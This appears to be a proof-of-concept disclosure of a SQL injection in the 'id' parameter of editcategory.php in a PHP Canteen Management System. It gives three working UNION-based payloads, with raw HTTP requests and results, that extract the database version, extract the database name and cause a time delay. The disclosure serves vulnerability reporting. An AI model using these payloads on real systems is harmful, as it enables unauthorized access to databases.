 # Canteen Management System  has SQL injection

BUG_Author: Pass-A
vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/youthappam/editcategory.php

Parameter "id" (GET), exists delayed injection vulnerability
Payload1: id=-6706' UNION ALL SELECT NULL,CONCAT(0x7178767171,IFNULL(CAST(version() AS NCHAR),0x20),0x7170707a71),NULL,NULL-- - 

```
GET /youthappam/youthappam/editcategory.php?id=-6706%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178767171%2CIFNULL%28CAST%28version%28%29%20AS%20NCHAR%29%2C0x20%29%2C0x7170707a71%29%2CNULL%2CNULL--%20- HTTP/1.1
Host: 192.168.31.230
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.230/youthappam/youthappam/categories.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=3jk5le3ldtfg5e2bn3b6i6fpg3
Connection: close
```

version()，The server response the version of database  (8.0.12)

![图片1](https://user-images.githubusercontent.com/28854626/202444469-a35c23eb-ae9d-4bb8-8c9a-32ce7fa59d80.png)


Payload2:-6706' UNION ALL SELECT NULL,CONCAT(0x7178767171,IFNULL(CAST(database() AS 
NCHAR),0x20),0x7170707a71),NULL,NULL-- -



```
GET /youthappam/youthappam/editcategory.php?id=-6706%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178767171%2CIFNULL%28CAST%28database%28%29%20AS%20NCHAR%29%2C0x20%29%2C0x7170707a71%29%2CNULL%2CNULL--%20- HTTP/1.1
Host: 192.168.31.230
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.230/youthappam/youthappam/categories.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=3jk5le3ldtfg5e2bn3b6i6fpg3
Connection: close
```

Database() ,The server response the name of database   (youthappam)

![图片2](https://user-images.githubusercontent.com/28854626/202444533-60b32c53-c131-479b-b7af-e4c8f445df75.png)



Payload3:-2184' UNION ALL SELECT NULL,CONCAT(0x7178767171,IFNULL(CAST(sleep(6) AS NCHAR),0x20),0x7170707a71),NULL,NULL-- - HTTP/1.

```
GET /youthappam/youthappam/editcategory.php?id=-2184%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7178767171%2CIFNULL%28CAST%28sleep%286%29%20AS%20NCHAR%29%2C0x20%29%2C0x7170707a71%29%2CNULL%2CNULL--%20- HTTP/1.1
Host: 192.168.31.230
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.230/youthappam/youthappam/categories.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=3jk5le3ldtfg5e2bn3b6i6fpg3
Connection: close
```



sleep(6)，The server response time is 6 seconds

![图片3](https://user-images.githubusercontent.com/28854626/202444575-7c294b2f-36be-4b5b-9d50-ac0dc41b37e7.png)
